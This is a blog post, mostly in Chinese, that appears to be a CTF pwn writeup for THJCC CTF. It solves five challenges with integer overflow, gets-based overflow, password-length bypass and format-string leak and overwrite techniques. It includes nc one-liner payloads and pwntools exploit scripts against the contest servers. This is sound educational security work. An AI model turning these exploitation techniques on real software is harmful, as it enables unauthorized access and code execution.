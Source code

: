 ```yaml
---
title: THJCC CTF - pwn Writeup
published: 2025-04-22 02:45:00
description: ''
image: ''
tags: ['pwn']
category: 'CTF'
draft: false 
lang: ''
---
```


> 比賽時 pwn 的題目並沒有寫完全部（5/7），若後續有解出來會再補上。

## Flag Shoping

It's the FLAG SHOP!!! Let's go buy some flags!!!

> Author: Grissia

`nc chal.ctf.scint.org 10101`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/flag_shopping.c)

### Solution

這一題是典型的 interger overflow 題，使用者可以選擇購買商品、輸入購買數量 `(long long)num`，而用來儲存持有金錢的 `money` 又是 `int` 型別。第 43 行在扣錢時，又將 `num` 轉型成 `int`，所以我們可以考慮以下攻擊流程：

- 輸入數量一個比 `INT_MAX` 大的數，讓第 43 行轉型別時會變成負數。在減法時就會**負負得正**。
- 重複以上動作直到持有金錢累計大於購買 flag 的金額 123456789。

所以我們的目標是讓 `money` 比原先多 123456789 - 100 = 123456689。

如果輸入的數字是 `INT_MAX` + 1 的話，型別轉換後會變成 `INT_MIN`，乘上 25 後就會再次 overflow 讓 `money` 變成負數。

```
> 1
> 2147483648
> 3
> 1
You only have -2147483548, But it cost 123456789 * 1 = 123456789
...
```

會導致這樣是因為原本 money 裡面有 100 元，所以就只要把輸入加上 100 / 25 = 4 後，應該就可以扣掉多餘的錢避免 overflow。但經測試之後要再加上 1 才夠。

## Money Overflow

I'm so poor that I can't afford to eat. I really wish I had a rich little sister to save me QQ

> Author: Dr.dog

`nc chal.ctf.scint.org 10001`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/money_overflow.c)

### Solution

這題就是簡單的 stack overflow 題，使用者的資訊會被存在一個 `struct` 裡面：

```c
struct {
  int id;
  char name[20];
  unsigned short money;
} customer;
```

而程式一開始就用不安全的函式讀，取使用者的輸入到 `customer.name`。這就給了我們利用的機會，只要填滿 `name` 後，就可以覆蓋到 `money` 的值。

```c
customer.id = 1;
customer.money = 100;
printf("Enter your name: ");
gets(customer.name);
```

而題目要求要 65535 才能拿到 shell，因此只要蓋 `\xff\xff` 就可以了。

```zsh
echo -e 'AAAAAAAAAAAAAAAAAAAA\xff\xff\n5\ncat flag.txt' | nc chal.ctf.scint.org 10001
```

## Insecure Shell

SSH is outdated<br>
ISSH is a more convenient alternative

> Author: Dr.dog

`nc chal.ctf.scint.org 10004`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/insecure_shell.c)

### Solution

這題會從 `/dev/urandom` 取出一段 15 bytes 的密碼，使用者必須輸入正確的密碼才能拿到 shell。但仔細閱讀程式碼，可以發現 `check_password()` 傳入的長度是使用者可控的，而不是密碼長度 15。

```c
check_password(password, buf, strlen(buf))
```

因此可以直接輸入一個長度 0 的字串繞過檢查，並拿到 shell。

```zsh
echo -e '\x00\ncat ../flag.txt' | nc chal.ctf.scint.org 10004
```

## Once

Are you sure you want to bet your life on winning this game in one chance?

![hyakusetsufuto](https://i.pinimg.com/736x/a4/5f/02/a45f02340a7bceef28ad678c5cd6507f.jpg)

> Author: Dr.dog

`nc chal.ctf.scint.org 10002`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/once.c)

### Solution

這一題是 format string 題，可以在程式碼中看到 `printf(buf)` 這種標誌型的特徵。程式一開始會隨機生成 `secret` 的內容，並在使用者輸入相同的字串時才能拿到 shell。既然是 format string，我們就可以嘗試 leak 出 `secret` 的內容。

```py
io.sendline(b"%8$p.%9$p")
    
io.recvuntil(b"Your guess: ")
high = io.recvuntil(b".").strip(b".")
high = int(high, 16)
low = io.recvuntil(b"\n").strip(b"\n")
low = int(low, 16)

secret =  p64(high) + p64(low)
info("secret: " + secret.decode());

io.sendline(b"n")

io.sendline(secret.strip(b"\x00"))
io.sendline(b"y")

io.sendline(b"cat ../flag.txt")
sleep(0.5)

io.recvuntil(b"answer!\n")
io.interactive()
io.close()
```

## Little Parrot

I'm a little parrot, and I'll repeat whatever you said!

> Author: Grissia

`nc chal.ctf.scint.org 10103`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/little_parrot.c)

### Solution

這一題也可以看到 format string 的漏洞，問題在於要怎麼跳到 `win()`。我的作法是 leak 出 stack 和 .text 段的 address，計算 offset 後用 format string 再寫入 return address 的指標。

```py
io.sendline(b"%40$p.%41$p")  # prev frame addr
io.recvuntil(b"You said > ")

prev_rbp = io.recvuntil(b".").strip(b".")
info("prev_rbp: " + prev_rbp.decode())

ret_addr = io.recvline().strip()
info("ret_addr: " + ret_addr.decode())

ptr_ret_addr = int(prev_rbp, 16) - frame_offset
info("ptr_ret_addr: " + hex(ptr_ret_addr))

win_addr = int(ret_addr, 16) - win_offset
info("win_addr: " + hex(win_addr))

info(hex(ptr_ret_addr + 4) + " -> win_addr: " + hex(win_addr))

payload = fmtstr_payload(
    offset=6,
    writes={
        ptr_ret_addr: win_addr,
    },
    write_size='short',
)

info(b"payload: " + payload)

io.sendline(payload)

io.sendline(b"exit")
io.interactive()
io.close()
```

## Bank Clerk

Do you know what the "Principle of Least Privilege" is? But what if I can control the system even through I'm just a bank clerk?

> Author: Dr.dog

`nc chal.ctf.scint.org 10003`

## Painter

I created a stack structure to store my artwork:D

> Author: Dr.dog

`nc chal.ctf.scint.org 10006`
